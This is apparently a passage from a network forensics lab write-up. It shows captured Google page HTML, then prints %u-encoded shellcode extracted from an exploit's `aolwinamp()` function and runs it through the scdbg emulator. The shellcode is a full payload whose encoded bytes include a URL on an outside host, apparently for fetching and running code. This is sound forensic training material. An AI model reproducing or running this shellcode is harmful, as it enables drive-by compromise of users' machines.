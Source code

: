 ```c
a> - <a href="http://www.google.com/ncr">Google.com in English</a><p id=shf0 style=display:none;behavior:url(#default#homePage)><font size=-1><a href="/aclk?sa=L&ai=CAVCOf3FoS6LnGZP_-Qae1JWJB8X4n3zX25rHCs2tk5cREAEgwVRQvpyhyfj_____AWD7AaoEXk_QaVnXXzqc1hKrkVCjkO7EHFVwe8mxGnGeZV9uE5tcLOBbo7fVifzZNfzskBQmWnm68vuA396UskaiPmPF4sTzsTitoBoKnhE6HExsaFt9aReAHz7NppD2Aif-14U&num=1&sig=AGiWqty0yyn1h1qel3QGGXXWe-9-P9wUjA&q=/mgyhp.html" onclick=xz()>Faire de Google ma page d'accueil</a></p><script>(function(){var a=document.getElementById("shf0"),b="http://www.google.fr/";try{a.isHomePage(b)||(a.style.display="block")}catch(z){}window.xz=function(){try{a.setHomePage(b);var c=new Image;c.src="/gen_204?mgmhp=shf0&ct=c&cd="+a.isHomePage(b);window.wy=c}catch(z){}}})();</script></font><p><font size=-2>&copy;2010 - <a href="/intl/fr/privacy.html">Confidentialit..</a></font></p></center></span> <div id=xjsd></div><div id=xjsi><script>if(google.y)google.y.first=[];if(google.y)google.y.first=[];google.dstr=[];google.rein=[];window.setTimeout(function(){var a=document.createElement("script");a.src="/extern_js/f/CgJmchICZnIrMAo4V0AdLCswDjgLLCswFjgXLCswFzgFLCswGDgFLCswGTgTLCswJTjKiAEsKzAmOAksKzAnOAQsKzA8OAIsKzBFOAEs/9-w08417YwM.js";(document.getElementById("xjsd")||document.body).appendChild(a);if(google.timers&&google.timers.load.t)google.timers.load.t.xjsls=(new Date).getTime();},0);
;google.neegg=1;google.y.first.push(function(){google.ac.b=true;google.ac.i(document.f,document.f.q,'','')});if(google.j&&google.j.en&&google.j.xi){window.setTimeout(google.j.xi,0);google.fade=null;}</script></div><script>(function(){
function a(){google.timers.load.t.ol=(new Date).getTime();google.report&&google.timers.load.t.xjs&&google.report(google.timers.load,google.kCSI)}if(window.addEventListener)window.addEventListener("load",a,false);else if(window.attachEvent)window.attachEvent("onload",a);google.timers.load.t.prt=(new Date).getTime();
})();
</script>
```

	- There's only this JavaScript from the rest of the packets.


### Extracting the Shellcode on `aolwinamp()` function:

Here's the shellcode:

```c
%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u333D
```


Command 1:

```c
C:\Users\husky\Desktop\CCD_NetworkForensicsLabs\Windows>scdbg.exe /f aolwinamp-shellcode
```

Output:

![](/assets/img/Pasted image 20240809134730.png)

